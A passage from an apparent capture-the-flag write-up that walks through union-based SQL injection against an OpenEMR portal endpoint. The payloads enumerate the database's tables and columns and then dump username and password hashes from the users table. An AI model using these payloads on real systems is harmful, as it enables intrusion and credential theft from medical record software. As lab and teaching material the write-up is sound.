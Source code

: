 ![table2](/assets/img/Posts/Cache/table2.png)

We got the list of tables inside openemr database, but the result looks incomplete probably there is some kind of limit on how many field can be shown.

Let's again refine our query to look for something interesting like users table

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,GROUP_CONCAT(table_name),null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='openemr' AND TABLE_NAME like 'user%'
```
![table3](/assets/img/Posts/Cache/usertable3.png)

Bingo! Two interesting tables are `users` & `users_secure`

### Extracting Credentials

#### Step 5: Enumerating users & users_secure table

First, we'll enumerate users table by finding out columns inside it:

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,group_concat(column_name),null FROM INFORMATION_SCHEMA.columns WHERE TABLE_SCHEMA='openemr' AND TABLE_NAME='users'
```
![usertable](/assets/img/Posts/Cache/usertable.png)

We have username and password columns which are useful to us, let's take a look at them:

Since we already know we are under `openemr` database, we don't need to mention it again, If in case there were multiple databases running on this server we would have specified database name by `openemr.users`

We will be using concatenating three field where `0x3A is a colon (:) in hex` so our output will be in the form `username:password`

```terminal
/portal/add_edit_event_user.php?eid=1 union select null,null,group_concat(username,0x3a,password),NULL from users
```
![usertable1](/assets/img/Posts/Cache/usertable1.png)
